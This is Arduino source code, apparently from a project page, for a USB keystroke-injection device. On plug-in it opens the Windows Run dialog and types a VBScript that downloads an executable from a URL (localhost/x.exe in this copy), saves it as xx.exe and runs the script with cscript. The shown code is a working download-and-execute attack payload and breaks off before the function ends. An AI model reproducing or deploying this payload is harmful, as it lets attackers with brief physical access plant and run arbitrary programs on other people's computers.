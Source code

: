 bool ledState = false;

void cmdrun(char *cmd)
{
	Keyboard.println(cmd);
}

void guirun(char *cmd)
{
	Keyboard.press(KEY_LEFT_GUI);
	Keyboard.press('r');
	delay(100);
	Keyboard.releaseAll();
	Keyboard.println(cmd);
        delay(myKeyBreak);
}

void setup() {
  delay(5000);
  guirun("cmd.exe");
  delay(500);
  cmdrun("del x.exe");
  delay(myKeyBreak);
  cmdrun("echo strFileURL = "http://localhost/x.exe" &gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo strHDLocation = "xx.exe" &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objXMLHTTP.open "GET", strFileURL, false &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objXMLHTTP.send() &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo If objXMLHTTP.Status = 200 Then &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo Set objADOStream = CreateObject("ADODB.Stream") &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objADOStream.Open &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objADOStream.Type = 1 &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objADOStream.Write objXMLHTTP.ResponseBody &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objADOStream.Position = 0 &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo Set objFSO = Createobject("Scripting.FileSystemObject") &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo Set objFSO = Nothing &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objADOStream.SaveToFile strHDLocation &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo objADOStream.Close &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo Set objADOStream = Nothing &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo End if &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("echo Set objXMLHTTP = Nothing &gt;&gt; guirun.vbs");
  delay(myKeyBreak);
  cmdrun("exit");
  delay(1000);
  guirun("cmd /c cscript guirun.vbs");
